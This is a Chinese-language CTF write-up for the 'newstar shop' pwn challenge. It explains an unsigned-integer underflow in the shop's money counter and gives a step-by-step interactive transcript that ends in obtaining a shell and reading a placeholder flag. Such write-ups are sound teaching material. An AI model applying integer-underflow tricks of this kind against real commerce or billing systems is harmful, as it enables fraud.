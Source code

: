 # W1 newstar shop

## 文件分析

下载`newstar_shop`, 保护全开
ghidra分析为64位程序

## 逆向

根据逆向结果，持有的钱会先转换成uint，那么只要使持有的钱下溢，
就可以购买天价终端了

注意：don't choose只能用一次

## EXPLOIT

nc node4.buuoj.cn 28760

以下为输入输出，输入会用粗体表示

> =================
> 1.Go to the shop 
> 2.Make some money
> 3.Don't choose   
> =================
> 
> 
> **1**
> =============================
> ===Welcome to newstar shop===
> =============================
> 1.newstar's gift          20$
> 2.pwn write up            40$
> 3.shell                 9999$
> 
> 
> All things are only available for one day!
> What do you want to buy?
> 
> 
> **2**
> You buy a pwn write up
> That is free after the match,haha
> 
> 
> =================
> 1.Go to the shop 
> 2.Make some money
> 3.Don't choose   
> =================
> 
> 
> **1**
> =============================
> ===Welcome to newstar shop===
> =============================
> 1.newstar's gift          20$
> 2.pwn write up            40$
> 3.shell                 9999$
> 
> 
> All things are only available for one day!
> What do you want to buy?
> 
> 
> **2**
> You buy a pwn write up
> That is free after the match,haha
> 
> 
> =================
> 1.Go to the shop 
> 2.Make some money
> 3.Don't choose   
> =================
> 
> 
> **3**
> You shouldn't choose this
> Please remember, the shop owner doesn't like his secret to be found
> To punish your choice, you will lose 50$ and you will never be able to choose it!
> 
> 
> =================
> 1.Go to the shop 
> 2.Make some money
> 3.Don't choose   
> =================
> 
> 
> **1**
> =============================
> ===Welcome to newstar shop===
> =============================
> 1.newstar's gift          20$
> 2.pwn write up            40$
> 3.shell                 9999$
> 
> 
> All things are only available for one day!
> What do you want to buy?
> 
> 
> **3**
> How do you buy it?
> 
> 
> **cat flag**
> flag{你猜}
>
>> money变化：100 - 40 - 40 - 50 -> -10 -> 0xFFFFFFF5
>

Done.
